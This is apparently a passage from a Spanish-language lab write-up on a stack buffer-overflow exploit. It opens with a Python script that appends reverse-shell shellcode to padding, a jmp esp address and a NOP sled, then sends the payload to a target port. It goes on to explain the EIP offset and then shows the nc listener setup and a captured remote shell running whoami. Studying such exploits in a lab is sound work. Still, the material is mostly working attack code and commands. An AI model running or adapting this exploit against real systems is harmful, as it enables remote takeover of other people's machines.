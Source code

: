```python
reverse_shellcode += b"\x33\xc9\xb1\x12\x83\xe8\xfc\x31\x50\x0e\x03\x27"
reverse_shellcode += b"\xf1\x03\x9c\xf6\xd6\x33\xbc\xab\xab\xe8\x29\x49"
reverse_shellcode += b"\xa5\xee\x1e\x2b\x78\x70\xcd\xea\x32\x4e\x3f\x8c"
reverse_shellcode += b"\x7a\xc8\x46\xe4\xbc\x82\xbc\x4e\x54\xd1\xbe\xb0"
reverse_shellcode += b"\xee\x5c\x5f\x7c\x96\x0e\xf1\x2f\xe4\xac\x78\x2e"
reverse_shellcode += b"\xc7\x33\x28\xd8\xb6\x1c\xbe\x70\x2f\x4c\x6f\xe2"
reverse_shellcode += b"\xc6\x1b\x8c\xb0\x4b\x95\xb2\x84\x67\x68\xb4"

crafted_payload = padding + jmp_esp_address + nop_sled + reverse_shellcode

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(b"Data Input: " + crafted_payload + b"\r\n")

if __name__ == '__main__':
    send_payload()
```

**Desbordamiento del buffer**: El payload comienza con `A`'s para llenar el buffer hasta alcanzar el `offset` donde se sobrescribe el `EIP` (`288` en este caso).

**Dirección de retorno**: Utilizamos la dirección de una instrucción `jmp esp` para redirigir la ejecución hacia nuestro `shellcode`. Esta dirección se obtiene mediante análisis del binario vulnerable usando herramientas como `gdb`.

**NOP sled**: Se añade una "`pista`" de `NOPs` (`\x90`) antes del `shellcode` para garantizar que cualquier variación en la dirección de salto no interfiera con la ejecución del `payload`.

Por lo que ahora tendremos que hacer lo siguiente:

> gdb (pwndbg)

```shell
run
```

> host

```shell
nc -lvnp <PORT>
```

Y finalmente en otra terminal de nuestro `host` tendremos que ejecutar el script y asi obtender la shell:

```shell
python3 step4.py
```

Y si nos vamos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 40602
whoami
securedev
```
